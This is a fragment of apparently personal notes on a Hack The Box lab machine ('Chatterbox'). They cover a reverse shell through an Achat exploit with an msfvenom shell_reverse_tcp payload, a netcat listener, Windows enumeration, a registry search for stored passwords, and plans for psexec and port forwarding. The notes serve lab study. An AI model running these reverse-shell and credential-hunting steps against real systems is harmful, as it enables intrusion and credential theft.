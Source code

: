 in kali:
```bash
nc -lvnp <port>
```

> run & get root access




# Escalation Path: Passwords and Port Forwarding



## chatterbox - hack-the-box
Achat Exploit - https://www.exploit-db.com/exploits/36025

Achat Exploit (Metasploit) - https://www.rapid7.com/db/modules/exploit/windows/misc/achat_bof

We can modify the payload to shell_reverse_tcp and add lhost, lport and set new target ip

Fire the msfvenom again after the modifications and change the payload:
```
- open a listener = netcat
- run the exploit
```

### Enum
```powershell
systeminfo
net users
net user <user>
ipconfig
netstat -ano
```

### Hunting passwords
```powershell
reg query HKLM /f password /t REG_SZ /s
```

If a password shows here, we can copy the register path of the file to show more info:
```powershell
ref query <reg path of the pwd found>
```

> Got username and a password

Here we need to think the available options:
```
- is ssh open?
- is smb available? so we can use psexec attack?
- perhaps password reuse?
```

### Port Forwarding
Plink Download - https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html
